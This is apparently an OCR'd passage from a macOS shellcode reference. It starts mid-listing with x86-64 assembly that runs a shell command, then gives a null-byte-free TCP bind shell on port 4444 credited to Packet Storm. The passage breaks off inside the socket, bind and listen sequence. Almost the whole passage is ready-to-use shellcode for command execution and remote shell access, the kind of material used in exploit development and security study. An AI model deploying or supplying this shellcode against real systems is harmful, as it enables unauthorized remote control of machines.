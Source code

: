 ```armasm
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

_exit:
    xor rdi, rdi                  ; Exit status code 0
    push    1                     ; put 1 on the stack (exit syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```

#### Bind shell

Bind shell from [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **port 4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xffffffffa3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; bind(host_sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x68
    syscall    

    ; listen(host_sockid, 2)
    xor  rsi, rsi
    mov  sil, 0x2
    mov  rax, r8
```